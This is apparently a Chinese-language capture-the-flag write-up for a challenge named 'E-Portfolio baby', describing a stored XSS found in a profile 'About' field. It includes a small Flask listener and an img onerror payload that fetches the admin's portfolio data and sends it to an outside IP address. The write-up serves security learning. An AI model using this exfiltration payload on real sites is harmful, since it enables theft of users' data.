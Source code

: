 # E-Portfolio baby
## 題目

![image](https://user-images.githubusercontent.com/57281249/239947968-58cebf9a-2d90-4e46-962c-708821270e0e.png)

## 解題
網頁進來是登入介面
![image](https://user-images.githubusercontent.com/57281249/239949795-ccaa3dcf-f7dd-486e-9ceb-ef88c53b4639.png)

About 那邊可以放 html 看起來可以 XSS
![image](https://user-images.githubusercontent.com/57281249/239949939-80bef056-5b2f-411e-9dee-ac420c3487e7.png)

測一下
![image](https://user-images.githubusercontent.com/57281249/239950346-3fe6900c-5d62-4690-9550-4aaaa7115e5c.png)

看起來可以
![image](https://user-images.githubusercontent.com/57281249/239950395-1559651a-26a4-4397-8bf6-c4c143e47259.png)

用 flask 隨便寫個 server 聽 request
``` python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET'])
def data():
    print(request.args)
    return "aaa"


if __name__ == "__main__":
    app.run(host="0.0.0.0",port=80)
```

payload
``` html
<h5>Hello!</h5>
I am a <span style="color: red;">new</span> user.

<img src=x onerror='fetch("/api/portfolio").then(res => res.json()).then(data => {fetch(`http://10.113.193.20?${new URLSearchParams(data.data)}`)})'/>
```

送去給 admin
![image](https://user-images.githubusercontent.com/57281249/239951160-ce6aab2d-05dc-4a7a-a1bf-d611321778b6.png)

然後就收到 flag 了
![image](https://user-images.githubusercontent.com/57281249/239951318-cdb64a68-3280-4d77-89e7-068574d94b4f.png)

# Flag
`AIS3{<img src=x onerror='fetch(...}`